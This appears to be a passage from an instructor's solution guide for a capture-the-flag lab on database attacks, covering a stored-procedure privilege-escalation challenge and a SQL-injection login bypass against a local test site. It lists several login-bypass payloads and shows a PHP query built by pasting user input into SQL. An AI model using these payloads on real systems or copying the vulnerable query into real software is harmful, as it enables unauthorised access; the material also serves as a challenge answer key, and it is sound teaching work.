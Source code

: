 **Common Mistakes:**
- Don't know how to list procedures
- Don't understand DEFINER clause
- Try to modify procedure instead of calling it

**Teaching Moment:**
- SQL DEFINER security model
- Stored procedures as privilege escalation vector
- Real-world: UDF exploits in MySQL

---

### PHASE 4: INJECTION ATTACKS (1.5 hours)

#### Challenge 8: Authentication Bypass via SQL Injection (200 pts)

**Objective:** Bypass login form using classic SQLi

**Solution:**

**Manual Method:**
```
1. Go to: http://localhost:8080/index.php?page=login

2. Enter credentials:
   Username: admin' OR '1'='1' --
   Password: (anything)

3. Click Login

4. After bypass, you're logged in as admin

5. Check admin panel or query directly:
mysql> SELECT * FROM admin_panel;
```

**Alternative payloads:**
```
admin' #
admin' OR 1=1 --
' OR '1'='1
admin'-- -
```

**Direct SQL Method:**
```bash
mysql> SELECT * FROM admin_panel WHERE username = 'admin';
# Shows the flag in secret_key column
```

**Flag:** From `flags.json` challenge ID 8

**Vulnerability:**
```php
// In login.php
$sql = "SELECT * FROM users WHERE username = '$username' AND password = MD5('$password')";
```
